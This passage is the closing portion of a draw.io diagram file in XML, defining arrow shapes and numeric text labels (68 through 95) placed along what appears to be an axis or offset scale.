        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-100" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="685" y="410" as="sourcePoint" />
            <mxPoint x="685" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-101" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="694" y="411" as="sourcePoint" />
            <mxPoint x="694" y="377.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-102" value="68" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="726" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-103" value="72" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="775" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-104" value="76" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="826" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-105" value="80" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="878" y="400" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-106" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="747" y="410" as="sourcePoint" />
            <mxPoint x="747" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-107" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="797" y="410" as="sourcePoint" />
            <mxPoint x="797" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-108" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="847" y="411" as="sourcePoint" />
            <mxPoint x="847" y="377.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-109" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="898" y="409" as="sourcePoint" />
            <mxPoint x="898" y="375.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-110" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="946" y="409" as="sourcePoint" />
            <mxPoint x="946" y="375.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-111" value="84" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="926" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-112" value="95" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="973" y="320" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-113" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="992" y="410" as="sourcePoint" />
            <mxPoint x="992" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-114" value="88" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="972" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-115" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1045" y="409" as="sourcePoint" />
            <mxPoint x="1045" y="375.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-116" value="92" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="1025" y="401" width="40" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
